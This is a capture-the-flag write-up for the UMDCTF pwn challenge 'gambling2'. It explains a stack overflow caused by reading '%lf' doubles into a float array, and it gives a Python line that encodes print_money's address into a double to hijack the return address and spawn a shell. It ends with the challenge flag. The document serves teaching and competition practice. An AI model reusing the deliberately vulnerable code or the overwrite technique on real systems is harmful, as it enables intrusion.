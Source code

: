 # gambling2

## 🧩 Challenge Summary

- **Category**: Pwn  
- **Points**: 306  
- **Solves**: 190 teams

---

### 📝 Problem Description

> I gambled all of my life savings in this program (i have no life savings)

---

## 🧠 Challenge Structure

The binary implements a simple gambling game.  
The user is asked to input 7 numbers, and if any of them match a randomly generated float, they "win."  
Although the prize function `print_money()` is commented out, it can still be triggered via memory corruption.

```c
void gamble() {
    float f[4];
    float target = rand_float();
    printf("Enter your lucky numbers: ");
    scanf(" %lf %lf %lf %lf %lf %lf %lf", f,f+1,f+2,f+3,f+4,f+5,f+6);
    if (f[0] == target || f[1] == target || f[2] == target || f[3] == target || f[4] == target || f[5] == target || f[6] == target) { 
        printf("You win!\n");
        // due to economic concerns, we're no longer allowed to give out prizes.
        // print_money();
    } else {
        printf("Aww dang it!\n");
    }
}
```

- The array `f` is declared as `float[4]` (4 bytes per element), but `%lf` is used in `scanf`, which writes 8 bytes per input.
- This mismatch causes a deliberate buffer overflow vulnerability.

---

## ✅ Exploitation Flow

### 🔹 Step 1: Environment Analysis

Binary protections:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
FORTIFY:  Enabled
Stripped: No
```

Key observations:

- `%lf` reads 8 bytes (`double`), but the array is only meant to hold 4-byte `float`s.
- The 7th input will write past the buffer and eventually reach the return address on the stack.

Sample memory layout using GEF:

```
gef➤  x/24wx $esp
0xffffd5b0:  0x0804a02b  0xffffd5f0  0xffffd5f4  0xffffd5f8
0xffffd5c0:  0xffffd5fc  0xffffd600  0xffffd604  0xffffd608
0xffffd5d0:  0x00000001  0x0804a010  0xffffd61c  0x080492e8
...
0xffffd608:  (7th float input)
0xffffd60c:  (saved return address)
```

- The 7th `double` input lands just before the saved return address.
- Since each `%lf` writes 8 bytes, the upper 4 bytes of the 7th input overwrite the return address.

---

### 🔹 Step 2: Exploitation Strategy

Our goal is to overwrite the return address with the address of the `print_money()` function:

```c
void print_money() {
    system("/bin/sh");
}
```

- In little-endian systems, writing a crafted `double` allows us to control the upper 4 bytes, which align with the return address.
- We use the following trick to encode the function address into a `double`:

```python
payload = struct.unpack('<d', p64(elf.sym.print_money << 32))[0]
```

- This left-shifts the address by 32 bits, placing it into the higher half of the 8-byte double.
- When written via `scanf("%lf")`, it neatly overwrites the return address on the stack.

### ✅ Summary Table

| Step | Action                                                                 |
|------|------------------------------------------------------------------------|
| 1    | Input six junk `double` values to fill the buffer and align stack     |
| 2    | Use a crafted `double` to overwrite the return address                |
| 3    | Execution jumps to `print_money()`, which executes `/bin/sh`         |

---

## 🏁 Flag

Once a shell is gained:

```bash
$ cat flag.txt
```

```
UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}
```
